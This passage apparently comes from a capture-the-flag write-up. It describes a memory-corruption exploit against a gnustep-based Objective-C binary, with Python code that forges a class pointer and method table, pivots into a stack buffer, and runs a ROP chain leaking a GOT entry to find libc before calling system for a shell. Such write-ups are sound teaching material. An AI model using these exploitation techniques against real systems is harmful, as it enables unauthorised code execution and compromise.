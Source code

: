 After that, we added another pointer, which through our crafted class pointer  
lies exactly at offset 0x40, meaning it is the pointer to the implementation  
table struct.

We offset the implementation table struct in such a way, that it points
directly  
after the pointer to it, so that in the payload, all the pointers lie next to  
each other.

Since the observed selector value in the `gnustep-base` library from
`libs.zip`  
was 0x0000001500000064, assuming the values are the same on the remote server,  
we can adjust the first table-level to point just after the previous pointer
in  
the payload, and similar for the second table level.

This leaves us with this payload:

```py  
method = 0x4141414141414141  
base_vtable = 0x90  
base_data = 0x80

payload = (  
   p64(turtle + base_vtable + 0x00 - 0x040) + # class

   rop.chain().ljust(base_data - 8, b"\0") +  
   data.ljust(base_vtable - base_data, b"\0") +

   p64(turtle + base_vtable + 0x08 - 0x000) + # imp_table_struct  
   p64(turtle + base_vtable + 0x10 - 0x64 * 8) + # tbl_level1  
   p64(turtle + base_vtable + 0x18 - 0x15 * 8) + # tbl_level2  
   p64(method)  
)  
```

## Getting a shell

Using the payload we constructed above, we can an adjust-gadget that pops a
few  
things off the stack, in order to land inside our stack buffer.

We found a gadget that pops into irrelevant registers 4 times, landing exactly  
after our crafted class pointer in the stack buffer.

From that point, we have ROP, and can ROP to `printf` in order to leak a GOT  
entry and recover the libc base address. After that, we ROP back to main in  
order to send a second ROP-chain and jump to libc's `system`

Stage 1 ROP-chain:

```py  
data = b"%sEND"

rop.raw(rop_rdi)  
rop.raw(turtle + base_data)

rop.raw(rop_rsi_r15)  
rop.raw(setvbuf_got)  
rop.raw(0)

rop.raw(printf_plt)  
rop.raw(main_addr)  
```
